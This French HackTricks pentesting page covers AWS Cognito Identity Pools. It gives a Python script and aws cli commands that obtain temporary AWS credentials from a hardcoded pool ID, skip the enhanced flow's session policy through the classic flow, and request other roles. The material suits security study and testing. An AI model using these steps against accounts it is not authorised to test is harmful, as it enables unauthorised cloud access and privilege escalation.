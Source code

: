 # Cognito Identity Pools

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Informations de base

Avec un pool d'identités, vos utilisateurs peuvent **obtenir des informations d'identification AWS temporaires pour accéder aux services AWS**, tels que Amazon S3 et DynamoDB. Les pools d'identités prennent en charge les utilisateurs invités anonymes, ainsi que les fournisseurs d'identité suivants que vous pouvez utiliser pour authentifier les utilisateurs pour les pools d'identités :

* Pools d'utilisateurs Amazon Cognito
* Connexion sociale avec Facebook, Google, Connexion avec Amazon et Connexion avec Apple
* Fournisseurs d'identité OpenID Connect (OIDC)
* Fournisseurs d'identité SAML
* Identités authentifiées par le développeur

### Cognito Sync

Pour générer des sessions de pool d'identités, vous devez d'abord **générer un ID d'identité**. Cet ID d'identité est l'**identification de la session de cet utilisateur**. Ces identifications peuvent comporter jusqu'à 20 ensembles de données pouvant stocker jusqu'à 1 Mo de paires clé-valeur.

Cela est **utile pour conserver les informations d'un utilisateur** (qui utilisera toujours le même ID d'identité).

De plus, le service **cognito-sync** est le service qui permet de **gérer et synchroniser ces informations** (dans les ensembles de données, en envoyant des informations dans des flux et des messages SNS...).

## Accès aux rôles IAM

### Non authentifié

La seule chose dont un attaquant a besoin pour **obtenir des informations d'identification AWS** dans une application Cognito en tant qu'utilisateur non authentifié est l'**ID du pool d'identités**, et cet **ID doit être codé en dur** dans l'application web/mobile pour l'utiliser. Un ID ressemble à ceci : `eu-west-1:098e5341-8364-038d-16de-1865e435da3b` (il n'est pas possible de le deviner par force brute).

{% hint style="success" %}
Le **rôle IAM Cognito non authentifié créé via est appelé** par défaut `Cognito_<Nom du pool d'identités>Unauth_Role`
{% endhint %}

Si vous trouvez un ID de pool d'identités codé en dur et qu'il autorise les utilisateurs non authentifiés, vous pouvez obtenir des informations d'identification AWS avec :
```python
import requests

region = "us-east-1"
id_pool_id = 'eu-west-1:098e5341-8364-038d-16de-1865e435da3b'
url = f'https://cognito-identity.{region}.amazonaws.com/'
headers = {"X-Amz-Target": "AWSCognitoIdentityService.GetId", "Content-Type": "application/x-amz-json-1.1"}
params = {'IdentityPoolId': id_pool_id}

r = requests.post(url, json=params, headers=headers)
json_resp = r.json()

if not "IdentityId" in json_resp:
print(f"Not valid id: {id_pool_id}")
exit

IdentityId = r.json()["IdentityId"]

params = {'IdentityId': IdentityId}

headers["X-Amz-Target"] = "AWSCognitoIdentityService.GetCredentialsForIdentity"
r = requests.post(url, json=params, headers=headers)

print(r.json())
```
Ou vous pouvez utiliser les commandes **aws cli** suivantes :
```bash
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign
aws cognito-identity get-credentials-for-identity --identity-id <identity_id> --no-sign
```
{% hint style="warning" %}
Notez que par défaut, un utilisateur Cognito **non authentifié NE PEUT PAS avoir de permission, même si elle lui a été attribuée via une politique**. Vérifiez la section suivante.
{% endhint %}

### Flux d'authentification amélioré par rapport au flux d'authentification de base

La section précédente a suivi le **flux d'authentification amélioré par défaut**. Ce flux définit une **politique de session restrictive** [**session policy**](../../aws-basic-information/#session-policies) pour la session du rôle IAM générée. Cette politique permettra uniquement à la session d'**utiliser les services de cette liste** (même si le rôle avait accès à d'autres services).

Cependant, il existe un moyen de contourner cela, si le **pool d'identités a activé le "flux de base (classique)"**, l'utilisateur pourra obtenir une session en utilisant ce flux qui **n'aura pas cette politique de session restrictive**.

{% code overflow="wrap" %}
```bash
# Get auth ID
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign

# Get login token
aws cognito-identity get-open-id-token --identity-id <identity_id> --no-sign

# Use login token to get IAM session creds
## If you don't know the role_arn use the previous enhanced flow to get it
aws sts assume-role-with-web-identity --role-arn "arn:aws:iam::<acc_id>:role/<role_name>" --role-session-name sessionname --web-identity-token <token> --no-sign
```
{% endcode %}

{% hint style="warning" %}
Si vous recevez cette **erreur**, c'est parce que le **flux de base n'est pas activé (par défaut)**

`Une erreur s'est produite (InvalidParameterException) lors de l'appel de l'opération GetOpenIdToken : le flux de base (classique) n'est pas activé, veuillez utiliser le flux amélioré.`
{% endhint %}

Avec un ensemble de **credentials IAM**, vous devriez vérifier [les accès dont vous disposez](../../#whoami) et essayer de [les escalader](../../aws-privilege-escalation/).

### Authentifié

{% hint style="info" %}
N'oubliez pas que les **utilisateurs authentifiés** se verront probablement accorder **différentes permissions**, donc si vous pouvez **vous inscrire dans l'application**, essayez de le faire et obtenez de nouvelles credentials.
{% endhint %}

Il peut également y avoir des **rôles** disponibles pour les **utilisateurs authentifiés accédant à l'Identity Pool**.

Pour cela, vous devrez peut-être avoir accès au **fournisseur d'identité**. S'il s'agit d'un **Cognito User Pool**, vous pouvez peut-être abuser du comportement par défaut et **créer vous-même un nouvel utilisateur**.

{% hint style="success" %}
Le **rôle IAM Cognito authentifié créé via est appelé** par défaut `Cognito_<Nom de l'Identity Pool>Auth_Role`
{% endhint %}

Quoi qu'il en soit, l'**exemple suivant** suppose que vous êtes déjà connecté à un **Cognito User Pool** utilisé pour accéder à l'Identity Pool (n'oubliez pas que d'autres types de fournisseurs d'identité peuvent également être configurés).

<pre class="language-bash"><code class="lang-bash">aws cognito-identity get-id \
--identity-pool-id &#x3C;identity_pool_id> \
--logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>

# Obtenez l'identity_id à partir de la réponse de la commande précédente
aws cognito-identity get-credentials-for-identity \
--identity-id &#x3C;identity_id> \
--logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>


# Dans l'IdToken, vous pouvez trouver les rôles auxquels un utilisateur a accès en raison des groupes de User Pool
# Utilisez --custom-role-arn pour obtenir des credentials pour un rôle spécifique
aws cognito-identity get-credentials-for-identity \
--identity-id &#x3C;identity_id> \
<strong>    --custom-role-arn &#x3C;role_arn> \
</strong>    --logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>
</code></pre>

{% hint style="warning" %}
Il est possible de **configurer différents rôles IAM en fonction du fournisseur d'identité** avec lequel l'utilisateur se connecte ou même en fonction de l'utilisateur (en utilisant des claims). Par conséquent, si vous avez accès à différents utilisateurs via le même ou différents fournisseurs, il peut être **intéressant de vous connecter et d'accéder aux rôles IAM de chacun d'entre eux**.
{% endhint %}

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github repos**.

</details>
